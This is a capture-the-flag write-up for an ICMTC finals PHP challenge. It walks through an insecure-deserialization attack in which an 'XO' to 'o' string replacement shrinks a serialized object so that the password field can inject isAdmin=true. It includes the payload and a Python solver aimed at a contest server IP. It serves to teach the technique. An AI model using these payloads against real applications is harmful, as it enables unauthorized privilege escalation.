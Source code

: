 ```yaml
---
title: ICMTC Finals - Puzzle 2
author: 0x41ly
classes: wide
ribbon: red
header:
  teaser: /assets/images/icmtc-logo.png 
date: 2023-07-17 06:00:00 +0800
categories: CTF
description: "no one has solved Puzzle 2 in ICMTC CSC CTF Finals..."
tags: [php, insecure-deserialization]
---
```



We were provided a source code:
```php
<?php

include 'flag.php';

session_start();
class Users
{
    protected $username;
    protected $password;
    private $isAdmin = false;
    private $id = '';

    public function __construct($username , $password)
    {
        $this -> username = $username;
        $this -> password = $password;
        $this -> isAdmin = false;
    }

    public function __isAdmin(){
        return $this -> isAdmin;
    }

    public function setUsername($username)
    {
        $this -> username = $username;
    }

    public function setPassword($password)
    {
        $this -> password = $password;
    }

    public function getUsername()
    {
        return $this -> username;
    }

    public function getPassword()
    {
        return $this -> password;
    }
}


isset($_GET['src']) ? highlight_file(__FILE__) : '';


if(isset($_POST['solve']))
{
    $user = new Users($_POST['username'],$_POST['password']);
    $_SESSION['user'] = serialize($user);

}
else
{
    if(!isset($_SESSION['user']))
        $user = new Users("EG-CERT","Hi!");
    else
    {
        $user = str_replace('XO', 'o', $_SESSION['user']);
        $user = unserialize($user);
    }

    if($user -> __isAdmin())
        echo $FLAG;
    else
        echo "Try Again !!";

}
?>
```

To read the Flag we must set the `isAdmin` to true 
#### **Obstacles** :
- we don't have control to the whole serialized object but only 2 variables that be used in serialization and unserialization.

#### Bypasses:
- we have a good hint here
	```php
	$user = str_replace('XO', 'o', $_SESSION['user']);
	```
	where we can manipulate the length of the serialized object before being serialized.

  #### Example 
  Lets at first see an example of a normal serialized object
  ```php
  $user= new Users("lol","lol");
  echo serialize($user);
// O:5:"Users":4:{s:11:"�*�username";s:3:"lol";s:11:"�*�password";s:3:"lol";s:14:"�Users�isAdmin";b:0;s:9:"�Users�id";s:0:"";}
```

It is very important to take care of the null bytes in the serialized object as they are considered as a part of the string length here.

#### MindSet
- We will try to manipulate the length of the serialized object before its being unserialized by using the `XO` hint
if we set the username to a `XOXOXOXOXOXO` the usernamestring will be considered as 12 byte long string but before unserialize the same object the XO will be replaced with "o" which will make the string itself 6 byte long but when unserialize the object the function will replace the missing 6 bytes with the next 6 bytes after the replacd string 
##### Example
Let's forget about the nullbytes now but we will need it later
```php
 $user = new Users("XOXOXOXOXO","");
O:5:"Users":4:
{
	s:11:"*username";
		s:10:"XOXOXOXOXO";
	s:11:"*password";
		s:0:"";
	s:14:"UsersisAdmin";
		b:0;
	s:9:"Usersid";
		s:0:"";
}
```

after this being replaced the object will be  like this
```php
O:5:"Users":4:
{
	s:11:"*username";
		s:10:"ooooo";s:1
	//and here it will gives you a parse error
	//1:"*password";s:0:"";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";}
```

What can we benefit from this?
We can force the serialized object to reconstruct itself so we can control the whole object.

The attack contains 2 parts.
##### First part -- Username
we will force the username to be equal `{n*o}";s:11:"�*�password";s:{password part payload length}:`

if we count the byte needed considering that the password payload is 2 digits long we need 26 bytes including the null bytes to be replaced so we will just write 26 `XO's`

```php
$user= new Users("XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO","{there will be a payload here}");

O:5:"Users":4:
{
	s:11:"*username";
		s:52:"oooooooooooooooooooooooooo";s:11:"*password";s:30:"
		// here we can control the password payload
		{there will be a payload here}";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";}

```

and now it is obvious what we are going to do we will put the rest of the object n the password string.

 Second part -- Password
 What messing in the object is the Password field and the most important part which is `isAdmin` attribute 
 
 The final payload will be 
 ```php
 s:11:"�*�password";s:3:"lol";s:14:"�Users�isAdmin";b:0;s:9:"�Users�id";s:49:"
```

so when it be put all together the object look like 
``` php
O:5:"Users":4:{
	s:11:"*username";
		s:52:"oooooooooooooooooooooooooo";s:11:"*password";s:75:";
	s:11:"*password";
		s:0:"";
	s:14:"UsersisAdmin";
		b:1;
	s:9:"Usersid";
		s:49:"";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";
}

```

So if we created the object like this 
```php
$user = new Users("XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO",";s:11:\"\0*\0password\";s:0:\"\";s:14:\"\0Users\0isAdmin\";b:1;s:9:\"\0Users\0id\";s:49:\"");
$serialized= serialize($user);
$serialized2 = str_replace('XO', 'o', $serialized);
$unser_user = unserialize($serialized2);
echo var_dump($unser_user);
```
solver.py
```python
from requests import post
from base64 import b64decode

url = "http://139.59.129.141:8087/"
payload = ';s:11:"\x00*\x00password";s:0:"";s:14:"\x00Users\x00isAdmin";b:1;s:9:"\x00Users\x00id";s:49:"'
body = {'solve': 'true', 'username': 'XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO', 'password': payload}

# res = post("http://localhost:8080", data=body)
res = post(url, data=body)

cookie = res.headers['Set-Cookie']

print(cookie)
res = post(url , headers={'Cookie': cookie})
print(res.text)
```

![](/assets/images/puzzle2/explain.png)

![](/assets/images/puzzle2/demo.jpeg)
Now we reached our objective to make the `isAdmin=true`

---
Thanks for reading our writeup